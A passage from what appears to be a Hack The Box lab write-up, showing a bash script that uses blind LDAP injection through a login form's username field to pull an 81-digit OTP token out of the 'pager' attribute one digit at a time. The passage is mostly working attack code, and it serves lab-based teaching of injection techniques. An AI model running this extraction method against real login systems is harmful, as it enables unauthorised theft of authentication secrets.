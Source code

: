 ```
[+] Found: userPassword
```

At first, I thought the token string is in the userPassword attribute. However, this attribute has a OctetString type which makes it an unlikely candidate. It turns out that `pager` is the attribute storing the token string. To that end, I re-purpose the previous script to exfiltrate the digits one by one until I have the full 81-digit token string.

<div class="filename"><span>deduction.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.122
TOKEN=""

# urlencode
function urlencode() {
  echo -n "$1" \
  | xxd -p \
  | tr -d '\n' \
  | sed -r 's/(..)/%\1/g'
}

# send payload
function send_payload() {
  local query="*)(pager=XXX*"
  local payload="${query/XXX/$1}"
  local payload="$(urlencode $payload)"
  local payload="$(urlencode $payload)"

  curl \
    -s \
    -d "inputUsername=$payload" \
    -d "inputOTP=123456" \
    http://$HOST/login.php \
  | sed -r -e '34!d' -e 's/\s+<\/div>$//' \
  | rev \
  | cut -d ' ' -f1-2 \
  | rev
}

# main
PAYLOAD=""
TOKEN=""

for p in $(seq 1 81); do
  for d in {0..9}; do
    result=$(send_payload "$PAYLOAD${d}")
    if [ "$result" == "Cannot login" ]; then
      TOKEN=${TOKEN}${d}
      PAYLOAD=${PAYLOAD}${d}
      echo -n $d
      break
    fi
  done
done

echo -e "\n[+] Token string is: $TOKEN"
```


[1]: https://www.hackthebox.eu/home/machines/profile/172
[2]: https://www.hackthebox.eu/home/users/profile/13340
[3]: https://www.hackthebox.eu/